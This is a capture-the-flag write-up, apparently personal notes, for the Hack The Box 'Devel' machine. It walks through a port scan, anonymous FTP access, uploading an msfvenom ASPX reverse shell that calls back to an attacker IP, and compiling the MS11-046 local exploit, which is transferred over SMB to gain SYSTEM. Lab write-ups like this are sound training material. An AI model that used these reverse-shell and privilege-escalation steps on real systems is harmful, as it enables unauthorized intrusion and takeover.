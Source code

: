 ```yaml
---
description: File tranfering from linux to windows...
---
```


# Devel

### Set environment variables

export ip="10.10.10.5"&#x20;

export box="devel.htb"

### Recon

\*\* Network Scanner \*\*

```
rustscan -a $ip --ulimit 6500 --batch-size 3000 -r 1-65534 -- -sC -sV -oN $ip.nmap

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Analysing the output of the network scan, it's noticed that service is vunlerable to login with anonymous users. So, with this following credentials the login on it service are allowed:

```
anonymous
anonymous@domain.com
```

putting a revese shell into the target fpt server

Generating the reverse shell:

```
msfvenom -p windows/reverse_tcp LHOST=10.10.14.46 LPORT=1337 -f aspx -o shell.aspx
```

On metasploit:

```
use exploit/multi/handler

set lhost local_ip
set lport local_port
```

Hit the uploaded shell

```
curl $ip/shell.aspx
```

### Privilage escalation

After got a shell and try catch the flags from user and root, another recon is initialized searching for security gaps that allow an privilage escalation.

for that reason, the command _systeminfo_ was runned to get informations from system

```
10.10.10.5
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31
System Boot Time:          8/7/2022, 10:31:25
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.328 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.393 MB
Virtual Memory: In Use:    748 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::e435:c065:b48:61d
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e
```

Analyzing the informations gathered, the hotfix field was signed with "N/A", that means any patch of security was applyed, considering it and the system version "6.1.7600".

Searching for exploit for this windows version, the first one is: \*\* MS11-046 \*\* With it's id on exploitdb(40564), we go the source code of the exploit.

```
seachexploit -x 40564 > exploit.c
```

Now is necessary compile the exploit.

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

And following transfer the exploit to target machine

* kali: Up smbserver \*

```
usr/share/doc/python3-impacket/examples/smbserver.py shared .
```

* Devel machine: Get file \*

```
copy \\10.10.14.46\shared\exploit.exe
```

Aftter execute the exploit with:

```
exploit.exe
```

If all thing are done rigth, it will possible access content as Administrator

```
whoami
nt authority\system
```
